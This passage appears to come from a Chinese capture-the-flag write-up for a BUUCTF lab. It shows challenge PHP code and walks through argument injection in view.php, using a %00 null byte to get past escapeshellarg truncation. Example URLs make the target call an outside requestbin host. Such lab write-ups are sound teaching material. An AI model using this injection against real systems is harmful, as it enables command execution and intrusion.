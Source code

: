 ```php
foreach($output as $item) {

  preg_replace("/[^a-f0-9]/", '', $item['Id']);
  $name_or_id = $item['Id'];

  if (array_key_exists('Names', $item) && is_array($item['Names'])) {
    preg_replace("/[^a-z_]/", '', $item['Names'][0]);
    $name_or_id = $item['Names'][0];
  }
  else if (array_key_exists('Name', $item)) {
    preg_replace("/[^a-z_]/", '', $item['Name']);
    $name_or_id = $item['Name'];  
  }

  $objects[] = $name_or_id;
}
echo json_encode($objects);
exit();
?>
        </p>
      </div>
    </section>
  </body>
</html>
```



view.php 中写明逻辑，将输入的参数利用 escapeshellarg 转义后拼接执行。

![img](https://www.zhaoj.in/wp-content/uploads/2020/10/16032076288819ed24c2af9a46b73b3e2f148f40e2-1024x488.png)

\2. 首先来测试一下能不能进行参数逃逸。

测试几种姿势都不行，最后发现 %00 能进行截断，可以把后面的内容进行截断。

http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=http://http.requestbin.buuoj.cn/tz894atz

[http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=http://http.requestbin.buuoj.cn/tz894atz%00](http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=http://http.requestbin.buuoj.cn/tz894atz )

截断效果如下。

![img](https://www.zhaoj.in/wp-content/uploads/2020/10/1603208141078b668f8410ff3e4ae0fe8225601009-1024x444.png)

那么就代表这里 host_addr 这个参数我们是完全可控的了。

![img](https://www.zhaoj.in/wp-content/uploads/2020/10/1603208293107eac438cfada4bc7a1ed86ada17ea1-1024x288.png)



即便它因为 escapeshellarg 两边被加上了单引号，但我们可以利用它来怼上自己想要的参数。

![img](https://www.zhaoj.in/wp-content/uploads/2020/10/1603209269647f41f08a407fac2e1e49d5e0e33dc9-1024x81.png)
